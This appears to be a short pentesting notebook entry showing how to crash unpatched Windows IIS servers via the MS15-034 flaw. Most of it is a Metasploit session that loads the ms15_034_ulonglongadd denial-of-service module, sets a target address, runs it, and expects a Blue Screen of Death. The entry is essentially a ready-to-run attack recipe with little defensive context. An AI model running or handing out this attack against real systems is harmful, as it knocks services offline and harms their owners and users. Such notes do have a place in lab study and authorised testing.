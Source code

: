 ## Introduction
[[DOS]]
## Introduction to MS15-034
- If Microsoft Windows 7, Windows 8, Windows Server 2008, or Windows Server 2012 is running an IIS service without the MS15-034, we can crash the target using this simple attack:
## Code 
```python
msf6 auxiliary(dos/smb/smb_loris) > use auxiliary/dos/http/ms15_034_ulonglongadd
msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > set RHOSTS 192.168.216.11
RHOSTS => 192.168.216.11
msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > run

[*] DOS request sent
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- Output - The result should be the familiar Blue Screen of Death:
![[blue_screen_of_death.jpeg]]